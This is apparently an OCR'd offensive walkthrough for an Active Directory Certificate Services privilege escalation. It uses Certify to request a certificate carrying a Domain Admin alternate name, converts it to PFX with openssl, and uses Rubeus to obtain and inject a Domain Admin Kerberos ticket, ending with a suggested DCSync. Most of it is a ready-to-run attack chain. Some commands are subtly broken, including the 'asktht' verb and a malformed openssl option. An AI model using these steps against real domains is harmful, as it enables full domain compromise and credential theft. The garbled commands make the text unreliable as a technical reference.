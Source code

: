 This exploit only works because these settings enable server/client authentication, meaning an attacker can specify the UPN of a Domain Admin ("DA") and use the captured certificate with Rubeus to forge authentication.

*Note: If a Domain Admin is in a Protected Users group, the exploit may not work as intended. Check before choosing a DA to target.*

Request the DA's Account Certificate with Certify

.\Certify.exe request /template:<Template Name> /quiet /ca:"<CA Name>"

/domain:<domain.com> /path:CN=Configuration,DC=<domain>,DC=com /altname:<Domain Admin AltName> /machine

This should return a valid certificate for the associated DA account.

The exported cert.pem and cert.key files must be consolidated into a single cert.pem file, with one gap of whitespace between the END RSA PRIVATE KEY and the BEGIN CERTIFICATE.

*Example of cert.pem:*

- ----BEGIN RSA PRIVATE KEY-----

BIIEogIBAAk15x0ID[...]

[...]

[...]

- ----END RSA PRIVATE KEY-----
- ----BEGIN CERTIFICATE-----

BIIEogIBOmgAwIbSe[...]

[...]

[...]

- ----END CERTIFICATE-----

#Utilize openssl to Convert to PKCS #12 Format

The openssl command can be utilized to convert the certificate file into PKCS #12 format (you may be required to enter an export password, which can be anything you like).

openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" export -out cert.pfx

Once the cert.pfx file has been exported, upload it to the compromised host (this can be done in a variety of ways, such as with Powershell, SMB, certutil.exe, Cobalt Strike's upload functionality, etc.)

After the cert.pfx file has been uploaded to the compromised host, [Rubeus](https://github.com/GhostPack/Rubeus) can be used to request a Kerberos TGT for the DA account which will then be imported into memory.

.\Rubeus.exe asktht /user:<Domain Admin AltName> /domain:<domain.com> /dc:<Domain Controller IP or Hostname> /certificate:<Local Machine Path to cert.pfx> /nowrap /ptt

This should result in a successfully imported ticket, which then enables an attacker to perform various malicious acitivities under DA user context, such as performing a DCSync attack.
